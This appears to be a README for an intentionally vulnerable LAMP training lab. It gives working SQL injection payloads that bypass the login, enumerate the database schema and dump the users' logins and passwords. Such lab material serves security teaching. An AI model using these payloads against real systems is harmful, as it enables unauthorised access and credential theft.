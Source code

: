 # Vulnerable LAMP

Exploiting a LAMP server using different techniques

## Getting started

### Prerequisites

* Docker

### Installing

After cloning the repo and cd-ing into it
```
docker-compose up -d
```

## Vulnarabilities

### SQL Injection

On the login page, type **admin' or 1=1;#** and anything as a password (but not empty)
With that we bypassed login screen.

We can get more information:
Number of columns: **admin' or 1=1 order by 7;#** if we order by 8 we'll get an error
Used columns: **admin' union select 1,2,3,4,5,6,7;#**
Database's name: **admin' union select 1,2,database(),4,5,6,7;#**
Tables' names: **admin' union select 1,2,group_concat(table_name),4,5,6,7 from information_schema.tables where table_schema=database();#**
Table's columns: **admin' union select 1,group_concat(column_name),3,4,5,6,7 from information_schema.columns where table_name='users';#**
Users' login: **admin' union select 1,group_concat(login),3,4,5,6,7 from users;#
Users' password: **admin' union select 1,group_concat(mot_de_passe),3,4,5,6,7 from users;#**

